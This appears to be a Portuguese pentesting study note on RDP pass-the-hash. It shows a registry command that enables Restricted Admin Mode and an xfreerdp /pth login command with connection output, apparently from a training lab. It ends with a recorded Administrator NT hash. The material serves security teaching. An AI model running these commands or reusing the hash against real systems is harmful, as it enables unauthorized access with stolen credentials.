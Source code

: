 #protocolo #hacking 

# RDP Pass-the-Hash (PtH)

Podemos querer acessar aplicativos ou softwares instalados no sistema Windows de um usuário que só estão disponíveis com acesso GUI durante um teste de penetração. Se tivermos credenciais de texto simples para o usuário alvo, não haverá problema para o RDP entrar no sistema. No entanto, e se tivermos apenas o hash NT do usuário obtido de um ataque de despejo de credenciais, como o banco de dados [SAM](https://en.wikipedia.org/wiki/Security_Account_Manager) , e não pudermos quebrar o hash para revelar a senha em texto simples? Em alguns casos, podemos realizar um ataque RDP PtH para obter acesso GUI ao sistema de destino usando ferramentas como `xfreerdp`.

Existem algumas advertências para este ataque:

- `Restricted Admin Mode`, que está desabilitado por padrão, deve estar habilitado no host de destino; caso contrário, receberemos o seguinte erro:

![[rdp_session-4.webp]]

Isso pode ser habilitado adicionando uma nova chave de registro `DisableRestrictedAdmin`(REG_DWORD) em `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`. Isso pode ser feito usando o seguinte comando:

## Adicionando a chave de registro DisableRestrictedAdmin

```cmd
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

![[rdp_session-5.webp]]

Depois que a chave de registro for adicionada, podemos usar `xfreerdp` com a opção `/pth`para obter acesso RDP:

```shell-session
NycolasES6@htb[/htb]# xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state            
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr                                   
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd                                  
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr                                 
[09:24:11:427] [1668:1669] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized                               
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state        
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - CN = dc-01.superstore.xyz                                                     
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - VERSION ={                                                              
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMajorVersion: 6                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMinorVersion: 1                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductBuild: 7601                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        Reserved: 0x000000                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        NTLMRevisionCurrent: 0x0F                                        
[09:24:11:567] [1668:1669] [INFO][com.winpr.sspi.NTLM] - negotiateFlags "0xE2898235"

<SNIP>
```

Se funcionar, agora estaremos logados via RDP como usuário alvo, sem saber sua senha em texto simples.

![[Pasted image 20240502095211.jpg]]

















We found a hash from another machine Administrator account, we tried the hash in this computer but it didn't work, it doesn't have SMB or WinRM open, RDP Pass the Hash is not working.

User: Administrator
Hash: 0E14B9D6330BF16C30B1924111104824